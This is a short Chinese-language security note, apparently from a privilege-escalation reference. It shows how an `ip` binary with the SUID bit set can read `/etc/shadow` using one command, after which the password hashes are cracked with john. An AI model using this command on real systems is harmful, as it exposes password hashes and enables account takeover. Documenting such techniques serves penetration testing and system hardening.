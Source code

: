 # ip

`ip` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
./ip -force -batch /etc/shadow
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/ip-1.png)

然后使用`john` 对 hash 进行破解.
